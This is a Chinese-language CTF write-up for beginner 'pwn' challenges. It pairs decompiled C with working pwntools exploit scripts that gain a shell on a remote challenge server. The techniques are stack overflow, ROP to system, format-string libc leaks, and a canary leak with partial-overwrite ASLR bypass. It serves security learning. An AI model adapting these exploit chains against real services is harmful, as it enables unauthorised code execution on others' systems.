


Pwn 入门。

<!--more-->

## pwn1

nc 上去直接拿到了 shell。

## pwn2

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-30h]

  memset(&s, 0, 0x30uLL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  puts("say something?");
  read(0, &s, 0x100uLL);
  puts("oh,that's so boring!");
  return 0;
}
```

最简单的栈溢出，IDA 中可以发现目标函数 `get_shell_`，地址为 `0x400751`。`s` 位于 `ebp-0x30`，与要覆盖的返回地址相差 `0x38`（注意是 64 位程序），那 payload 就是 `'a'*0x38 + p64(0x400751)`。

```python
from pwn import *

p = remote('114.116.54.89', 10003)

payload = 'a'*0x38 +p64(0x400751)

p.recvline()
p.sendline(payload)

p.interactive()
```

## pwn4

和 pwn2 的区别是没有现成的 `get_shell` 函数了，checksec 发现什么保护也米有，估计是写 `shellcode`。

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char s; // [rsp+0h] [rbp-10h]

  memset(&s, 0, 0x10uLL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  puts("Come on,try to pwn me");
  read(0, &s, 0x30uLL);
  puts("So~sad,you are fail");
  return 0LL;
}
```

但是填充需要 `0x18` 字节，能输入的只有 `0x30` 字节，没有足够长度写 `shellcode`，因此这个办法行不通。

IDA 中浏览下函数，发现有个奇怪的函数：

```c
int sub_400751()
{
  return system("ok~you find me,but you can't get my shell'");
}
```

这里给了 `system` 函数，我们只需要让他的参数为 `/bin/sh` 就行了。我们搜索下字符串：



这里有一堆没有意义但显然是人为添加的字符串，可以猜想我们需要的东西肯定在里面。观察到其中一个字符串末尾是 `$0`，这就是我们需要的 shell 的别名了。

先定位 `call _system` 的地址 `0x40075a`，随后需要在 64 位下传参，也就是需要 `pop rdi; ret` 这样的 `gadget`，最后要定位 `$0` 的位置：

```shell
$ ROPgadget --binary pwn4 --only 'pop|ret'
$ ROPgadget --binary pwn4 --string '\$0'
```

得到 `pop rdi; ret` 的地址 `0x4007d3` 和 `$0` 的地址 `0x60111f`。

```python
from pwn import *

context(arch='amd64', os='linux')
p = remote('114.116.54.89', 10004)


payload = 'a'*0x18 + p64(0x4007d3) + p64(0x60111f) + p64(0x40075a)

p.recvline()
p.sendline(payload)

p.interactive()
```

## pwn5

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-20h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  memset(&s, 0, 0x20uLL);
  puts(&::s);
  read(0, &s, 8uLL);
  printf(&s, &s);
  puts(&s);
  puts(&s);
  puts(&s);
  puts(&byte_400978);
  sleep(1u);
  puts(asc_400998);
  read(0, &s, 0x40uLL);
  if (!strstr(&s, &needle) || !strstr(&s, &byte_4009BA) )
  {
    puts(&byte_4009C8);
    exit(0);
  }
  puts(&byte_4009F8);
  return 0;
}
```

注意到 `printf(&s, &s);`，说明这里有一个格式化字符串漏洞。通过 gdb 调试后发现，我们可以泄露 `__libc_start_main` 地址来得到 `system` 和 `/bin/sh` 的地址。



而 `__libc_start_main` 和我们的输入在栈上相差 `0x28`，换算成偏移量就是 `0x28 / 8 = 0x05`，此外还需要考虑 64 位下的六个传参寄存器，因此总偏移为 `0xb`。我们输入 `%11$p` 即可泄露 `__libc_start_main` 地址 `0x7ffff7a2d830`。

接下来就交给 `libc_database` 工具了：

```shell
$ ./find __libc_start_main_ret 830
ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
archive-glibc (id libc6_2.23-0ubuntu3_amd64)
$ ./dump libc6_2.23-0ubuntu10_amd64
offset___libc_start_main_ret = 0x20830
offset_system = 0x0000000000045390
offset_dup2 = 0x00000000000f7970
offset_read = 0x00000000000f7250
offset_write = 0x00000000000f72b0
offset_str_bin_sh = 0x18cd57
```

随后我们用和 pwn4 相同的方法找到 `pop rdi; ret` 的 `gadget` 地址 `0x400933` 就可以用类似的办法构造 payload 了。需要注意的是，程序中还限制了第二次输入的字符串必须包含 `鸽子` 和 `真香` 两个子串。

最后的 payload：

```python
# coding:utf-8
from pwn import *

context(arch='amd64', os='linux', log_level='DEBUG')
p = remote('114.116.54.89', 10005)
#p=process('./human')

p.recvline()
p.recvline()
p.sendline('%11$p')

libc_leak = int(p.recvuntil('\n')[2:-1], 16)
offset___libc_start_main_ret = 0x20830
offset_system = 0x0000000000045390
offset_str_bin_sh = 0x18cd57

base = libc_leak - offset___libc_start_main_ret
system_addr = base + offset_system
binsh_addr = base + offset_str_bin_sh

pop_rdi = 0x400933

payload = '鸽子真香'.ljust(0x28,'a')
payload += p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)

p.recvuntil('?\n')
p.sendline(payload)

p.interactive()
```

## pwn3

本题 `vuln` 函数关键代码：

```c
puts("write some note:");
puts("  please input the note len:");
note_len = 0;
__isoc99_scanf("%d", &note_len);
puts("please input the note:");
read(0, thinking_note, (unsigned int)note_len);
puts("the note is:");
puts(thinking_note);
if (strlen(thinking_note) != 624 )
{
  puts("error: the note len must be  624");
  puts("  so please input note(len is 624)");
  read(0, thinking_note, 0x270uLL);
}
```

分析 `vul` 函数可知，`read` 处可以栈溢出，且长度也是我们可控的。第二次 `read` 时限制了长度最大为 `0x270`，而我们输入的 `thinking_note` 距离 `ebp` 是 `0x260` 也就是 `608` 字节。

本题开启了 canary 保护，因此首先需要泄露 canary，canary 位于 `ebp-0x8` 位置。泄露完后要返回到 `main`，但是开启了 ASLR 导致我们无法确定 `main` 的位置。然而，ASLR 不会随机化低 12 位。我们观察 IDA 发现 `vul` 函数返回到 `0xd2e` 而 `main` 位于 `0xd20`，因此只需要覆盖 `2e` 为 `20` 即可，不受 ASLR 影响。

```python
def ret2main():
    payload = flat('a'*600,canary,'a'*8,'\x20')
    p.sendafter('624)\n', payload)

def send(payload):
    p.sendlineafter('path:\n','flag')
    p.sendlineafter('len:\n','999')
    p.sendlineafter('note:\n',payload)
    p.recvuntil('aaaa\n')

# leak canary
send('a'*600)
canary = u64('\x00' + p.recv(7))
log.success('canary:' + hex(canary))
ret2main()
```

注意这里覆盖的是 canary 的低位字节，恢复时需要注意默认的小端法表示。

接下来，我们要泄露程序基址以绕过 ASLR。这里可以泄露 `vul` 函数返回地址，减去其偏移量 `0xd2e` 来得到。

```python
# leak elf base
send('a'*615)
base = u64(p.recv(6).ljust(8,'\x00')) - 0xd2e
log.success('base:' + hex(base))
ret2main()
```

发送 `'a'*615` 加上最后的回车实际上是 616 字节，恰好覆盖了 canary 和 saved ebp，接下来打印的就是返回地址。这一步做完后用同样的办法返回 `main`。

第三次，我们已经绕过 canary 和 ASLR，需要泄露 `libc` 地址，由于这里有 `puts` 函数，直接按照常规的 `ret2libc` 方法即可。这里采用了泄露 `read` 函数 GOT 地址的方法。

```python
def ret2libc(leak, func):
    libc = LibcSearcher(func, leak)

    base = leak - libc.dump(func)
    system = base + libc.dump('system')
    binsh = base + libc.dump('str_bin_sh')
    return (system, binsh)

# leak libc
pop_rdi = 0xe03
main = 0xd20
payload = flat(['a'*600,canary,'a'*8,base+pop_rdi,base+elf.got['read'],base+elf.plt['puts'],base+main])
send(payload)

payload = flat('a'*600,canary,'a'*8,base+pop_rdi)
p.recvuntil('624)\n')
p.send(payload)
read = u64(p.recv(6).ljust(8,'\x00'))
log.success('read:' + hex(read))
system, binsh = ret2libc(read,'read')
```

尤其需要注意，第二次输入长度不能超过 `0x270` 也就是 `624`，这里构造的 payload 恰好长度为 624，因此只能用 `p.send()` 不能 `p.sendline()`，否则会多出一个 `0a` 字节使程序终止。

最后就可以 getshell 了：

```python
# get shell
payload = flat('a'*600,canary,'a'*8,base+pop_rdi,binsh,system)
send(payload)
p.sendlineafter('624)\n','a')

p.interactive()
```
